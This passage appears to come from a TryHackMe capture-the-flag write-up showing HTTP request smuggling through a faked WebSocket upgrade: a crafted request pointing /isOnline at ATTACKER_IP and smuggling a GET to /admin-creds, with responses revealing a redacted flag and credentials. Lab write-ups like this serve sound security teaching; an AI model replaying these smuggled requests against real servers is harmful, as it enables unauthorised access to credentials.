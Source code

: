 ```http
```
{{% /tab %}}

{{% tab "Response" %}}
```http
HTTP/1.1 101 
Server: nginx
Date: Fri, 07 Mar 2025 21:16:46 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 43
Date: Fri, 07 Mar 2025 21:16:46 GMT

THM{:::REDACTED:::}
```
{{% /tab %}}
{{% /tabs %}}

## HTTP 2 CL.0 desync to get the second flag

Credentials from `/admin-creds` can be used to login into chat application:

{{% tabs %}}
{{% tab "Request" %}}
```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /admin-creds HTTP/1.1
Host: MACHINE_IP:8080

 
```
{{% /tab %}}

{{% tab "Response" %}}
```http
HTTP/1.1 101 
Server: nginx
Date: Fri, 07 Mar 2025 21:15:49 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 55
Date: Fri, 07 Mar 2025 21:15:49 GMT

username:REDACTED password:REDACTED
```
{{% /tab %}}
{{% /tabs %}}
